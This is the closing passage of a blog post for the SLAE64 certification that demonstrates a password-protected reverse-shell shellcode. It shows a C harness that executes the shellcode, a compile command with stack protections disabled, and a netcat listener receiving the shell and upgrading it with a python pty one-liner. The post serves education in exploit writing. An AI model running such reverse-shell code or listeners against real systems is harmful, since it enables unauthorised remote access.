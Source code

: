 ```term
;

main()
{
 
printf("Shellcode Length:  %d\n", (int)strlen(code));
 
int (*ret)() = (int(*)())code;
 
ret();
 
}
```

#### EndGame

```term
whitecr0wz@SLAE64:~/assembly/assignments/Assignment_2$ gcc reverse-password.c -o reverse-password -fno-stack-protector -z execstack -w 
whitecr0wz@SLAE64:~/assembly/assignments/Assignment_2$ ./reverse-password 
Shellcode Length:  285
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
root@whitecr0wz:~# nc -lvp 9000 
listening on [any] 9000 ...
192.168.100.205: inverse host lookup failed: Unknown host
connect to [192.168.100.207] from (UNKNOWN) [192.168.100.205] 40094
Credentials:password
Failure. Credentials:cmon
Failure. Credentials:K6zjZpUKamLDSH8d
python3 -c 'import pty;pty.spawn("/bin/bash")';
whitecr0wz@SLAE64:/home/whitecr0wz/assembly/assignments/Assignment_2$ id 
id 
uid=1000(whitecr0wz) gid=1000(whitecr0wz) groups=1000(whitecr0wz),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),111(bluetooth)
whitecr0wz@SLAE64:/home/whitecr0wz/assembly/assignments/Assignment_2$
```


### Code

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification: [http://securitytube-training.com/online-
courses/securitytube-linux-assembly-expert/](http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)

Student ID: SLAE64–27812/PA-27812

You can find all of the used resources within this post [here](https://github.com/whitecr0wz/SLAE/tree/main/SLAE64/Assignment_2/).
